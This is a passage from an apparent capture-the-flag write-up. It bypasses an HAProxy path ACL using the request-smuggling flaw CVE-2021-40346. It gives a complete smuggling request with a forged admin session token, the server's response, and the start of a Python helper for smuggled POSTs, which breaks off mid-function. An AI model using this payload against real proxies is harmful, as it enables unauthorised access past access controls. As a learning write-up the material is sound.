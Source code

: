 ## Bypassing HAProxy
Now we want to hit `/api/test-ui` to continue our exploration, however we hit a problem. We are not allowed to access the endpoint, even when logged in as admin. Some digging around in the downloadable files leads us to `haproxy.cfg`, which contains the lines:
```
frontend http-in
 bind *:80
 default_backend web
 acl network_allowed src 127.0.0.1
 acl restricted_page path_beg /api/test-ui
 http-request deny if restricted_page !network_allowed
```
Clearly, we can see that this is denying access to `/api/test-ui` if we are not originating from localhost. This seems to put a stop to our access attempt, since we are oping to use `/api/test-ui` to achieve SSRF - but it now looks like we'll need it to be able to access the endpoint in the first place! However, some research lead me to [ CVE-2021-40346](https://jfrog.com/blog/critical-vulnerability-in-haproxy-cve-2021-40346-integer-overflow-enables-http-smuggling/), a recent vulnerability discovered in HAProxy which allows request smuggling - and the PoC specifically shows it bypassing ACL restrictions! We form a request as described in the PoC:

```
POST /register HTTP/1.1
Host: 178.62.19.68
Content-Length0aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa:
Content-Length: 644

POST /api/test-ui HTTP/1.1
Cookie: session=eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCIsImtpZCI6IjYwM2MyZTZiLWU2MjktNGJlYS1iODEzLWU0Y2NmNzY1Y2YyNSIsImprdSI6Imh0dHA6Ly9sb2NhbGhvc3Q6MTMzNy91cGxvYWRzLzJhNWY1NTU3ZDg5ZTQ0YzFjMDk5ODNhNTFlMjQyYWQwLnBuZyJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNjM3NTA3ODYyfQ.gWm-Jz1fSQ8lucWVvq8arfQ36oz-joDZhJOwisTMQvzPZu7S8VEF7cAO4mseRyeJukWJUojDNES7AsqHPp8E1Ys_K5pIHhwrcpy-w2WGTK3Y1fwLmXNmdeI9Vpi5N5JBYh7ku05N06reBUemCZ7ckG9UMrJ6ZJm4xnHamD076AD6NLxJrzkbICxSukk0ajYXQgY6bQTPlZyZ7Lj3X3ycLmTUuxDhTDwwR9U45pjfBZeY26eqUdGhuzc6pRUeAlQdrVJrtdeMQilIra0RB4jtl8AzTbevXN0MJ6j1WRs3C9MVNdOMbKSmaerdZnbp-KUa5h9dD2GDdn_GiTPEV8ve2w
DUMMY:GET /register HTTP/1.1
Host: 178.62.19.68
```

And get a response of

```
b'HTTP/1.1 404 Not Found\r\nx-powered-by: Express\r\ncontent-type: application/json; charset=utf-8\r\ncontent-length: 32\r\ndate: Sun, 21 Nov 2021 15:23:43 GMT\r\n\r\n{"message":"404 page not found"}HTTP/1.1 500 Internal Server Error\r\nx-powered-by: Express\r\ncontent-type: text/html; charset=utf-8\r\ncontent-length: 28\r\ndate: Sun, 21 Nov 2021 15:23:43 GMT\r\n\r\nMissing required parameters!'
```
Which is exactly what we want to see - the `Missing required parameters!` at the end indicates that we have hit the endpoint and passed all the authorisation checks - we just now need to pass data to the api.

In order to pass data, we need to send it in the body of a POST request. There is no PoC online for the exploit working with a non-empty POST request body which also returns the data back to the exploiter - only ones which hit the endpoint but we cannot access the data. However, in the end our strategy did not require the data to be returned to us directly from the request, so we do not need to do the three-request strategy shown above, just the simpler two-request strategy described in the first part of the article. We write a helper function in python to send smuggled POST requests:
```python
def tth_p(url,params=None):
	post_content = b'\r\n'
	form_content = json.dumps(params).encode()
	post_content += b"Host: "+host.encode()+b"\r\nContent-Type: application/json\r\nContent-Length: " + str(len(form_content)).encode() + b'\r\n\r\n' + form_content
```